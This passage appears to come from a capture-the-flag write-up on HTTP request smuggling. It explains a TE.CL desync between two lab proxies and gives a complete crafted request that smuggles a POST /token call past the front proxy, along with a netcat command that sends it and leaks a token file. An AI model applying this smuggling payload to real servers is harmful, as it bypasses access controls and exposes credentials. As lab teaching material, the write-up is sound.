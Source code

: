 With that settled, we can now look towards smuggling a packet past `maelstrom` to `maw`. Fortunately, we have actually already discovered the vulnerability! We found that `maelstrom.us` had the following code which was really similar to `channel.us`.

```python
elif header == "Content-Length" and body is None:
    pass
elif header == "Transfer-Encoding":
```

We can do basically the same thing as before, but this time we need to do TE.CL; that is, our first request needs to use `Transfer-Encoding` and our smuggled request will use `Content-Length`. Such a request would look like the following. Note that is 0x2e, as the chunk is 46 bytes long (including the `\r\n` after the first line and after the `Host` header). The content length is only 4 bytes; when `maw.us` uses the `Content-Length`, it will consume the `2e\r\n` and leave the smuggled request. Finally, the first 0 will end the `Transfer-Encoding` when `maw.us` parses it.

```http
POST /maw HTTP/1.1
Host: maelstrom.us:8080
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4

2e
0

POST /token HTTP/1.1
Host: maw.us:8080

0

```

<details><summary>Step by step walkthrough of that example</summary></details>

With our `localhost` proxies, we can test this directly and skip `channel.us` for now. As in Token 1, save that request to a file and use `netcat` with port `8081`.

```bash
unix2dos http.request
cat http.request | nc localhost 8081
```

Checking the log and output from `netcat`, we can see that we receive the sample token file.

![A screenshot of curl and the proxies running. The logs show the HTTP request being incorrectly parsed by the proxies, and the output from curl this time is now the "Sample Maw Token File".](./imgs/maw-tecl.png "Leaking the Local Maw Token File")
